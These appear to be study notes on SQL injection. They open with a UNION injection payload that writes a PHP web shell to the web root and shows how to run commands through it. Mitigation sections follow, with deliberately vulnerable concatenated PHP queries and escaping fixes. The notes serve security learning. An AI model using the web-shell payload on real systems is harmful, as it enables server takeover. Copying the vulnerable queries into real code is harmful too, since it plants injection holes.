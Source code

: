 ```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

 This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:
 ![[Pasted image 20250217104749.png]]

# Mitigating SQL Injection

## Input Sanitization

```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
<SNIP>
```

 Libraries provide multiple functions to achieve this, one such example is the [mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php) function. This function escapes characters such as `'` and `"`, so they don't hold any special meaning.
```php
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

$query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
echo "Executing query: " . $query . "<br /><br />";
```

. A similar example is the [pg_escape_string()](https://www.php.net/manual/en/function.pg-escape-string.php) which used to escape PostgreSQL queries.

## Input Validation

```php
<?php
if (isset($_GET["port_code"])) {
	$q = "Select * from ports where port_code ilike '%" . $_GET["port_code"] . "%'";
	$result = pg_query($conn,$q);
    
	if (!$result)
	{
   		die("</table></div><p style='font-size: 15px;'>" . pg_last_error($conn). "</p>");
	}
<SNIP>
?>
```
